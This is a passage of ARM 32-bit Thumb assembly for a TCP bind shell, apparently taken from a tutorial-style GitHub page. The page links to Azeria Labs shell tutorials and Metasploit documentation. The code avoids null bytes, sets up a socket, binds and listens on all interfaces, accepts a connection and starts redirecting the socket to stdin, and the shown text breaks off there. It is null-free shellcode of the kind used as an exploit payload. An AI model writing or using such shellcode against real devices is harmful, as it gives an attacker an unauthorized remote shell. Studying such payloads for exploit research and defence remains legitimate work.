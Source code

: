    _start:
        add r1, pc, #1
        bx r1

    .code 16
        @ initialize the sa struct, AF_INET, 0.0.0.0
        adr r0, _sa
        eor r2, r2, r2
        @ replace the 0xff in the first word with 0x00
        strb r2, [r0, #1]
        @ set the ip address to 0.0.0.0
        str r2, [r0, #4]
        @ null terminate the /bin/sh string
        strb r2, [r0, #15]

        @ syscall #281 socket(AF_INET, SOCK_STREAM, 0)
        mov r0, #2
        mov r1, #1
        @ r2 is already zero
        mov r7, #200
        add r7, #81
        svc #1

        @ save server socket
        mov r4, r0

        @ syscall #282 bind(sock, &sa, 16)
        @ r0 still has socket
        adr r1, _sa
        mov r2, #16
        add r7, #1
        svc #1

        @ syscall #284 listen(sock, 1)
        mov r0, r4
        mov r1, #1
        add r7, #2
        svc #1

        @ syscall #285 accept(sock, 0, 0)
        mov r0, r4
        eor r1, r1, r1
        eor r2, r2, r2
        add r7, #1
        svc #1

        @ save client socket
        mov r4, r0

        @ syscall #63 dup2(sock, stdin)
        mov r0, r4
        eor r1, r1, r1
        mov r7, #63
        svc #1


[azeria-bind-shell]: https://azeria-labs.com/tcp-bind-shell-in-assembly-arm-32-bit/
[azeria-reverse-shell]: https://azeria-labs.com/tcp-reverse-shell-in-assembly-arm-32-bit/
[ms-reverse-shell]: https://github.com/rapid7/metasploit-framework/wiki/How-to-use-a-reverse-shell-in-Metasploit
[mov-immed-arm]: http://infocenter.arm.com/help/index.jsp?topic=/com.arm.doc.dui0473e/Chdfgchf.html